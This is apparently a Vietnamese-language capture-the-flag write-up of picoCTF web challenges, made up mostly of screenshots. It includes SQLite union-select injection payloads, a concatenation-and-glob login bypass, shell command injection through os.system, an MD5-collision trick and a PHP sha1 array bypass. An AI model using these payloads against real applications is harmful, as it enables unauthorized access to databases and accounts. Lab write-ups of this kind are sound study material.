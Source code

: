# Pico

# 3v@l

![Screenshot 2025-05-06 145459](https://github.com/user-attachments/assets/7341be37-c7dd-452b-9bd5-c16d7c1f9255)

![Screenshot 2025-05-06 145355](https://github.com/user-attachments/assets/c7c3347d-3de3-472a-8d19-29883e1888e6)


# Trickster

![Screenshot 2025-05-06 155332](https://github.com/user-attachments/assets/b1b381bd-837e-408d-be81-cd3efdeac7fe)

![Screenshot 2025-05-06 155403](https://github.com/user-attachments/assets/6f13e065-7c1f-4f66-ab63-f8b5fc0fa6da)

![Screenshot 2025-05-06 155256](https://github.com/user-attachments/assets/ac5c313c-f361-458a-8539-4f0531317528)

![Screenshot 2025-05-06 155535](https://github.com/user-attachments/assets/cf092a89-0610-4e25-b710-7f2a8bd808de)

![Screenshot 2025-05-06 155628](https://github.com/user-attachments/assets/7bc6fb7c-7383-4ff6-a2ee-710ed70c4044)

![Screenshot 2025-05-06 155652](https://github.com/user-attachments/assets/51c486c3-f0db-4f08-b895-2663c972f65a)

![Screenshot 2025-05-06 160930](https://github.com/user-attachments/assets/5728cb41-4208-4af7-8109-5a9f1a6f889b)


# No Sql Injection
![Screenshot 2025-05-06 164913](https://github.com/user-attachments/assets/4b93f124-856c-4681-9027-c002a5ca2cfd)
Base64


# SOAP
![image](https://github.com/user-attachments/assets/66b72268-993f-4abe-a155-b48ce205c653)

![image](https://github.com/user-attachments/assets/e85f7fff-fa60-434e-bf56-02d3efab8184)


# SQLI

![image](https://github.com/user-attachments/assets/85cd66b8-317f-450f-8e67-07690551feda)

Lấy các bảng bằng payload như sau
>a' union select 1,name,3 from sqlite_master where type='table'-- -

![image](https://github.com/user-attachments/assets/f0cc536a-7494-4c2b-99e5-4c918f7ac6ef)

Kiểm tra bảng more_table

>a' union select 1,sql,3 from sqlite_master where name='more_table'-- -

KIểm tra cột flag trong bảng more_table

>a' union select flag,2,3 from more_table-- -

![image](https://github.com/user-attachments/assets/90e55f04-5245-4a7c-a5bf-c5ca3ee1a075)

# MatchTheRegex

![image](https://github.com/user-attachments/assets/c7b34f81-2f2c-437a-b108-c16e5f416f6b)
.*? bắt tất cả các kí tự bất kỳ, số lượng ít nhất cả thể, nghĩa là chỉ lấy } đầu tiên bắt gặp

Nếu không có ? sau * thì nó sẽ khớp tới } cuối cùng trong chuỗi lớn

![image](https://github.com/user-attachments/assets/d3835e3f-9f22-4148-95cf-005ace686b62)
![Screenshot 2025-05-06 183102](https://github.com/user-attachments/assets/6961aae8-79a0-4916-b4e1-49a36da9fb96)

# Caas
![image](https://github.com/user-attachments/assets/746e5afd-8d24-4158-85f6-27ad42af2db4)

>os.system("cowsay " + user_input)

trong shell dấu ; cho phép thực thi nhiều lệnh liên tiếp

![image](https://github.com/user-attachments/assets/f7c67758-e2ff-49d4-a113-9260cd3756d4)
![image](https://github.com/user-attachments/assets/4db39461-ec20-4caa-babf-ed59fb379acf)



# Web Gauntlet 2
![Screenshot 2025-05-07 122359](https://github.com/user-attachments/assets/eaa96d1c-8151-43bd-b10b-7fd44dad9305)

![image](https://github.com/user-attachments/assets/7f39cc63-2344-4762-810b-f24cf18d9deb)

Username là admin nhưng admin đã bị chặn =))), Trong Sqlite || là toán tử để nối chuỗi
>username: adm'||'in
>password: ' glob '*
SELECT username, password FROM users WHERE username='adm'||'in' AND password='' glob '*'

Vậy tại sao có thể bypass được password, '' là 1 chuỗi rỗng glob sẽ so sánh với '\*' nếu khớp trả về true mà '*' khớp với bất kì chuỗi nào => trả về true

![Screenshot 2025-05-07 123050](https://github.com/user-attachments/assets/98af7f57-76ce-450e-a32f-f8957c526564)
![image](https://github.com/user-attachments/assets/596a372d-822f-4294-a861-af9f9301c260)

# It is my Birthday
Gửi 2 file pdf có hàm băm giống nhau để lấy flag
https://www.mscs.dal.ca/~selinger/md5collision/ tải về 2 file hello.exe và erase.exe và đổi lại .pdf

![Screenshot 2025-05-07 143003](https://github.com/user-attachments/assets/7f556d34-6530-493d-ba94-ff9da58cc125)
![Screenshot 2025-05-07 142953](https://github.com/user-attachments/assets/0eae98ab-c92a-4f4c-878c-dc089825568c)


# Apriti sesamo

![Screenshot 2025-05-07 153124](https://github.com/user-attachments/assets/60e8a331-071a-4cc1-92d7-8de47ce51add)
![image](https://github.com/user-attachments/assets/cf1072aa-14bb-42a0-b29d-f9c8c11aac9f)

 Gợi ý liên quan tới Emacs, trong trình soạn thảo emacs khi chỉnh sửa 1 file thì file gốc sẽ được lưu lại và thêm ~ và cuối. Ví dụ file mới là index.php thì file cũ sẽ là index.php~

 ![Screenshot 2025-05-07 153524](https://github.com/user-attachments/assets/e442c091-1605-4d30-b497-a5d2c8b6d22e)

 Sau khi thêm ~ vào cuối thì ta đã nhận được một đoạn mã php

 ![Screenshot 2025-05-07 153615](https://github.com/user-attachments/assets/12067edc-2b2c-4f7d-b87b-32eeef911e5b)

 Chú ý vào đoạn code có flag, khi thảo mãn điều kiện thì flag sẽ được đọc. Vậy làm sao để 2 hàm băm có thể giống nhau?

 Ta có thể làm cho 2 hàm băm nhận giá trị null khi đó null === null , thỏa mản

 Vì php không thể hash array nên ta sẽ cho đầu vào là 1 array

 ![Screenshot 2025-05-07 154152](https://github.com/user-attachments/assets/85b8b188-e392-46f9-aa9d-23a039bd0499)

 Ta thêm [] vào sau username và pwd thì nó sẽ thành 
 
 else if (sha1(array(123) === sha1(array(456)) {
 
 => if (null === null)






























